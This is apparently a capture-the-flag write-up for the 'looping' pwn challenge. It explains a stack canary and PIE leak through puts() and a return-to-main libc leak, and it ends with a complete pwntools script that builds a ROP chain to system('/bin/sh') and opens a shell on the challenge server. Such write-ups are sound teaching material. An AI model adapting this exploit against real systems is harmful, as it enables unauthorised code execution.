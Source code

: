 # looping

###### This challenge is about bypassing modern exploit migrations.
#
Lets look at the challenge binary:
```
[*] '/pwd/looping'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enable
```

As you can see, there is full protection. Let's take a look at the decompilation:

```
int main() {
  setvbuf(stdin,0,2,0);
  setvbuf(stdout,0,2,0);
  setvbuf(stderr,0,2,0);
  alarm(20);

  char s[72];
 
  for (int i = 1; i <= 2; ++i) {
    memset(s, 0, 0x40u);
    read(0, s, 0x280);
    puts(s);
  }
  puts("TryHarder");
  return 0;
}
```

###### Se we have a buffer overflow vulnerability at ```read()```, which obviously is too much.
So a stack canary looks like this: **0x00**, so 7 bytes are random. The special thing about ```read()``` is,
that the strings aren't NULL terminated. But ```puts``` prints until it reaches a null byte, so we could overwrite the
canary's NULL byte and print out everything until the next NULL byte. This is our stack canary and a pie address:
```
0x7fffffffe588:	0xcf85e32d1d945a00 0x00005555555547d0
```
###### So if we send 72 characters, our newline overwrites the canary's NULL byte and we get two leaks.
So now we have the canary and a pie address. We can calculate the address of the ```main()``` function,
and we can call ```main()``` again, to get a libc leak and to generate a ropchain. Our ropchain will look like this:
```offset``` + ```canary``` + ```offset``` + ```main```. So we jumpet to main again and if we enter 207 characters, we get
a libc leak, because the address is printed by ```puts()```. So we can calculate the offsets and we can create a 
ropchain like this: ```offset``` + ```canary``` + ```offset``` + ```pop_rdi``` + ```binsh``` + ```system```. Cool let's try it!
**exploit:**
```python
from pwn import *


p = remote("35.223.244.247", 49154)
#p = process("./looping",env={"LD_PRELOAD" : "./libc.so.6"})

p.sendline("A"*72)
pause(1)

leaks = p.recv().split()
binary_leak = u64(leaks[1][7:].ljust(8, "\x00"))
print(hex(binary_leak))
binary_base = binary_leak - 0x990
main = binary_base + 0x88a
puts = binary_base + 0x710
puts_got = binary_base + 0x200fa8
pop_rdi = binary_base + 0x9f3
ret = binary_base + 0x980
canary = u64(leaks[1][:7].rjust(8, "\x00"))
print(hex(canary))

try:
    p.sendline("A"*72 + p64(canary) + "A"*8 + p64(ret) + p64(pop_rdi) + p64(puts_got) + p64(puts) + p64(main))
except:
    log.error("leak error")
    exit()

sleep(2)
leaks = p.recv().split()
print(leaks)
libc_leak = u64(leaks[2].ljust(8, "\x00"))
print(hex(libc_leak))
libc_base = libc_leak - 0x80aa0
system = libc_base + 0x4f550
binsh = libc_base + 0x1b3e1a
log.info("canary: " + hex(canary))
log.info("binary_base: " + hex(binary_base))
log.info("libc_base: " + hex(libc_base))

p.sendline("A"*72 + p64(canary) + "A"*8 + p64(pop_rdi) + p64(binsh) + p64(system))

p.sendline("X")

log.warning("getting shell...")

p.interactive()
```

Cool we get a shell! Fun challenge!
